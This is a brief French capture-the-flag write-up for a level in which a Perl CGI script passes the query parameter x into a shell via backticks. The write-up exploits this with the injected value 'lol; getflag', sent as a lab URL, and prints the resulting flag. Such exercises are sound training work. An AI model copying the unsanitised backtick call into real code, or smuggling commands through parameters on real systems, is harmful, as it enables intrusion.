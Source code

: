 # Level 04

- Le code
<pre>
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
<strong>  print `echo $y 2>&1`;</strong>
}
print(param);
x(param("x"));
</pre>
- avec la commande on a choisi de faire une injection
```
lol; getflag
```
- On le converti en urlencode et on l'assigne au parametre **x**
 - [http://192.168.99.101:4747/?x=lol%3b%20getflag](http://192.168.99.101:4747/?x=lol%3b%20getflag)
- flag: `ne2searoevaevoem4ov4ar8ap`
